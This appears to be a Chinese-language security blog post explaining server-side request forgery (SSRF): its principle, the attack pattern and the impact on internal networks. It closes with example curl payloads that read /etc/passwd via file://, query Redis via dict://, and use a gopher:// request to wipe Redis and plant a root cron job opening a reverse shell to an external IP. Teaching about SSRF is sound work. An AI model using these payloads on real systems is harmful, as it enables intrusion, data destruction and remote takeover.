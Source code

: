 ```yaml
---
layout: post
title:  web 安全系列-08-SSRF 服务端请求伪造
date:  2020-08-09 10:37:20 +0800
categories: [web]
tags: [web, web-safe, sf]
published: true
---
```


# SSRF 是什么？

服务端请求伪造（Server Side Request Forgery, SSRF）指的是攻击者在未能取得服务器所有权限时，利用服务器漏洞以服务器的身份发送一条构造好的请求给服务器所在内网。

SSRF攻击通常针对外部网络无法直接访问的内部系统。

## 原理

很多web应用都提供了从其他的服务器上获取数据的功能。

使用指定的URL，web应用便可以获取图片，下载文件，读取文件内容等。

SSRF的实质是利用存在缺陷的web应用作为代理攻击远程和本地的服务器。

一般情况下， SSRF攻击的目标是外网无法访问的内部系统，黑客可以利用SSRF漏洞获取内部系统的一些信息（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）。

SSRF形成的原因大都是由于**服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制**。

## 主要攻击方式

攻击者想要访问主机B上的服务，但是由于存在防火墙或者主机B是属于内网主机等原因导致攻击者无法直接访问主机B。

而服务器A存在SSRF漏洞，这时攻击者可以借助服务器A来发起SSRF攻击，通过服务器A向主机B发起请求，从而获取主机B的一些信息。

![输入图片说明](https://images.gitee.com/uploads/images/2020/0809/211849_71a2b9a9_508704.png)

## 漏洞危害

SSRF可以对外网、服务器所在内网、本地进行端口扫描，攻击运行在内网或本地的应用，或者利用File协议读取本地文件。

内网服务防御相对外网服务来说一般会较弱，甚至部分内网服务为了运维方便并没有对内网的访问设置权限验证，所以存在SSRF时，通常会造成较大的危害。

#  利用方式

SSRF利用存在多种形式以及不同的场景，针对不同场景可以使用不同的利用和绕过方式。

以curl为例, 可以使用dict协议操作Redis、file协议读文件、gopher协议反弹Shell等功能，常见的Payload如下：

```
curl -vvv 'dict://127.0.0.1:6379/info'

curl -vvv 'file:///etc/passwd'

# * 注意: 链接使用单引号，避免$变量问题

curl -vvv 'gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/103.21.140.84/6789 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a'
```
